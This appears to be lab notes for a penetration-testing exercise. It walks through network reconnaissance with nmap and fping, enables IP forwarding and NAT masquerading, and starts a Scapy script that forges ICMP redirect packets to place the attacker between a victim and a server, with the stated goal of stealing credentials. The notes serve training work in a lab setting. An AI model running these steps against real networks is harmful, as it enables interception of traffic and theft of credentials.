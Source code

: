 myip 10.100.13.20

- Your goals are:

    Find the web administration panel
    Identify the client machine
    Steal some valid credentials \for the web administration panel


- Identify the network you can reach:

```
└─$ ip route show dev tap0
	10.23.56.0/24 via 10.100.13.1 
	10.100.13.0/24 proto kernel scope link src 10.100.13.20 
```

Identify the live hosts:
```
	sudo nmap -sn -n 10.23.56.0/24 10.100.13.0/24
or  fping -a -g 10.100.13.0/24 2>/dev/null

	
	10.100.13.1
	10.100.13.126
	10.23.56.1
	10.23.56.100

```

- Identify the victim and the server:

```
nmap -sS -sV -n 10.23.56.100 10.100.13.126
```



- Configure your machine to perform IP Masquerading

```
echo 1 > /proc/sys/net/ipv4/ip_forward 
iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE
```

- Creating an ICMP Redirect Script

- Creating and sending ICMP redirect packets

```
originalRouterIP='10.100.13.1'
attackerIP='10.100.13.20'
victimIP='10.100.13.126'
serverIP='10.23.56.100'

```

-  We create an ICMP Redirect packet

```
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
```
